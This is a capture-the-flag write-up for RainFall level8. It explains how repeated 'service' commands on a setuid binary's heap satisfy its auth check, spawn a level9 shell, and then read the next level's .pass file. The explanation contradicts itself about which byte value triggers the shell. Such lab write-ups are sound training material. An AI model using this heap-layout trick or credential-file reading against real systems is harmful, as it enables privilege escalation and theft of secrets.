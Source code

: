 level8
======

*	We spawn with a [level8](src/level8) executable
	```console
	level8@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level9 users 6057 Mar  6  2016 level8
	level8@RainFall:~$ ./level8 
	(nil), (nil) 
	test
	(nil), (nil) 
	test
	```
*	Using ghidra on the program made me sick, this is the [base code](src/level8.c), but I tried to make it more readable for the sake of the correction, here is the [better code](src/level8_better.c). Let's review it :
	-	Infinite loop that takes two inputs `fgets` with a `BUFFER_SIZE=128`
		-	`printf` addresses of `auth` and `service`
		-	`return 0` if wrong input
		-	check for keywords `auth - reset - service - login` with `strncmp`
			-	`auth`:	
				-	`calloc(8)` the `auth[0]`
				-	`strcpy` the content of `tempBuffer` if its less than 30 char length into `auth`
			-	`reset`: `free(auth)`
			-	`service`: `strdup()` the `serviceBuffer` into `service[0]`
			-	`login`:
				-	if `auth != NULL` :
					-	if `auth[8] == 0` prompt to enter a password
					-	else launch a `/bin/sh`
*	To be fair it is quite the disgusting code. The point here is to make it so `auth[8]*4 -> 32nd bytes since its an array of 4 bytes` is equal to `0`.
*	Let's try the program:
	```console
	level8@RainFall:~$ ./level8 
	(nil), (nil) 
	auth 
	0x804a008, (nil) 
	service
	0x804a008, 0x804a018 
	```
	Since We have the address we can see a difference of `0x804a018 - 0x804a008 = 16 bytes`. Which means that adding another service command (remember that it dup again) should get us exactly at `auth[32]`
	```console
	[...]
	service
	0x804a008, 0x804a028 
	```
	So `0x804a028 - 0x804a008 = 0x20 -> 32`. We should be able to use the `login` command and get a shell.
	```
	[...]
	login
	$ whoami
	level9
	$ cat /home/user/level9/.pass  
	c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
	```